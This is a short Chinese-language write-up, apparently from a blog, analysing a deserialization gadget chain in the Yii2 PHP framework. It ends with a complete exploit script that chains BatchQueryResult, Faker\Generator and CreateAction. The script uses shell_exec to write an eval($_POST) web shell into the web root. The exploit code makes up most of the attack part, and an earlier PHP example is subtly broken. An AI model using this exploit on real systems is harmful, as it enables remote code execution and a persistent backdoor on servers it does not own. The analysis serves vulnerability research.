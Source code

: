 ![img](https://cdn.nlark.com/yuque/0/2022/png/29405061/1669954260104-6dbe5ef9-4cb0-4369-a2ff-b049fe8d018a.png)

- $arguments是一个空的数组，在call_user_func_array中，下面的代码是可以正常执行的。因此这里就可以任意执行一个无参的函数。

```php
class A{
	public $a = 1;
  function bar(){
    echo $a;
}
call_user_func_array([new A,'bar'],array())
```

- 在所有代码中搜索call_user_func函数，在CreateAction中，`this->checkAccess`是它的属性，`thi->id`是父类的属性，因此可以构造实现任意代码执行。

![img](https://cdn.nlark.com/yuque/0/2022/png/29405061/1669954696096-141cef0f-9c3c-4b24-804d-6450d93a87e7.png)

#### 0x02 exp

- 需要有一个反序列化的入口

```php
<?php
namespace yii\rest{
    class CreateAction{
        public $checkAccess;
        public $id;

        public function __construct(){
            $this->checkAccess = 'shell_exec';
            $this->id = 'echo "<?php echo 3333333;eval($_POST[1]);?>" > /var/www/html/basic/web/3.php';

        }
    }   
}

namespace Faker{
    use yii\rest\CreateAction;

    class Generator{
        protected $formatters;
        public function __construct(){
            $this->formatters['close'] = [new CreateAction(), 'run'];
        }
    }
}

namespace yii\db{
    use Faker\Generator;

    class BatchQueryResult{
        private $_dataReader;

        public function __construct(){
            $this->_dataReader = new Generator;
        }
    }
}
namespace {
    echo base64_encode(serialize(new yii\db\BatchQueryResult));
} 
?>
```
